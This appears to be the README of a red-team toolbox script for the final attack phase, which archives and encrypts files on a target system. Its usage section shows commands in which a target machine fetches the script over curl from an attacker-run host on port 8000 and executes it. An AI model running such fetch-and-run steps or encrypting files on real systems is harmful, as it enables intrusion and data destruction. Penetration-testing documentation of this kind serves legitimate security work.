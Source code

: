 # Action on Objectives Phase

The last phase includes the measures that are necessary to achieve the actual goal. This includes different techniques, which are applied depending on the defined goal. For example, if data needs to be stolen, it can be copied and removed. Furthermore, techniques for encryption, manipulation, destruction of data can be applied. Another goal can be the impairment of the availability of the system.

This script serves as a tool for some specified actions like encrypt files or directories.

## Features

- Create a compressed tar archive from given files or directories
- Unarchive given tar archive
- Encrypt given files or directories


## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/action-on-objectives/action-on-objectives.sh
sh action-on-objectives.sh -h
```
Local network:
```sh
# Host
sh action-on-objectives.sh -w
# Target
curl -LJO <Host>:8000/
sh action-on-objectives.sh -h
```

### Parameters




## Results

Results are printed directly to STDOUT.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.

-----

## Additional Information

